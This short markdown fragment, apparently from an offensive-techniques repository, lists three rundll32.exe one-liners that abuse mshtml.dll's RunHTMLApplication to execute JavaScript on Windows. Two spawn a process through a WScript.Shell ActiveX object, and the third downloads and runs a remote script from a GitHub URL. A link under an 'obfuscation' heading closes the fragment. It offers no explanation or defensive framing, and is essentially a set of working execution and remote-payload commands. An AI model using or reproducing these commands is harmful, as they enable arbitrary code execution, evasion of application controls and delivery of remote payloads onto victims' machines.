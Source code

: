 `rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("calc");` <br>
<br>

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");`
<br>
<br>

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")
`
<br><br>

##### obfuscation 
https://github.com/sailay1996/expl-bin/blob/master/obfus.md
